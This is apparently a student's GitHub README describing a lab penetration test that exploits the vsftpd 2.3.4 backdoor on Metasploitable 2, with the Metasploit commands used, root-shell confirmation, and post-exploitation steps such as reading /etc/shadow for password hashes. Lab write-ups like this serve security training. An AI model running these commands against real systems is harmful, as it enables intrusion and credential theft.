# 💥 Penetration Test Lab – vsftpd 2.3.4 Backdoor Exploitation

## 🎯 Objective

Conduct a simulated black-box penetration test against a vulnerable Linux machine (Metasploitable 2) and exploit the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) to demonstrate full system compromise.

This project demonstrates:

- Reconnaissance & service enumeration
- Vulnerability selection
- Exploit execution using Metasploit
- Root access confirmation
- Post-exploitation analysis
- Impact assessment

---

## 🖥 Lab Environment

| Component | Details |
|-----------|----------|
| Target | Metasploitable 2 |
| Target IP | 192.168.56.102 |
| Attacker | Kali Linux |
| Attacker IP | 192.168.56.101 |
| Framework | Metasploit Framework |
| Vulnerability | CVE-2011-2523 |
| Network | VirtualBox Host-Only |

---

## 🔎 Phase 1 – Reconnaissance

Nmap scan identified:

- 23 open TCP ports
- vsftpd 2.3.4 running on port 21
- Known backdoor vulnerability (CVE-2011-2523)

---

## 🚨 Phase 2 – Exploitation

Exploit module used:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

Steps:

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
exploit
```

Result:
- Backdoor triggered
- Shell opened on port 6200
- Root access obtained

---

## 🔓 Root Access Confirmation

```
whoami
```

Output:
```
root
```

Full administrative privileges confirmed.

---

## 🧠 Phase 3 – Post-Exploitation

Activities performed:

- OS fingerprinting (`uname -a`)
- User enumeration (`cat /etc/passwd`)
- Password hash extraction (`cat /etc/shadow`)
- Network interface inspection (`ifconfig`)
- Internal host discovery (`arp -a`)

---

## 📊 Impact Assessment

| Impact Area | Result |
|------------|--------|
| Confidentiality | All system files accessible |
| Integrity | Full modification capability |
| Availability | System can be shutdown or altered |
| Credential Exposure | All password hashes extracted |
| Lateral Movement | Additional hosts discovered |

Overall Severity: **CRITICAL – Full System Compromise**

---

## 📸 Key Evidence

### 🔧 Metasploit Console Launch


### 🔍 Searching for vsftpd Exploit


### 💥 Exploit Execution – Shell Opened


### 🔓 Root Access Confirmed


### 🖥 OS Information


### 👥 User Enumeration



### 🔑 Password Hash Extraction



### 🌐 Network Configuration


### 🔎 Internal Host Discovery


> 📁 Full penetration test report available in the `/Report` directory.

---

## 📁 Repository Structure

```
Penetration-Test-vsftpd-Backdoor/
│
├── Report/
│   └── Pentest_Report_Metasploitable2.pdf
│
├── Screenshots/
│   ├── 01_msfconsole_launch.png
│   ├── 02_search_vsftpd_results.png
│   ├── 03_exploit_execution_shell_opened.png
│   ├── 04_whoami_root_confirmed.png
│   ├── 05_uname_a_os_info.png
│   ├── 06_etc_passwd_part1.png
│   ├── 07_etc_passwd_part2.png
│   ├── 08_etc_shadow_part1.png
│   ├── 09_etc_shadow_part2.png
│   ├── 10_ifconfig_network_config.png
│   └── 11_arp_a_host_discovery.png
│
└── README.md
```

---

## ⚠ Disclaimer

All testing was conducted in a fully isolated lab environment for educational and portfolio purposes only.

---

## 👩‍💻 Author

Sana Fathima  
Cybersecurity Student | Offensive Security Labs
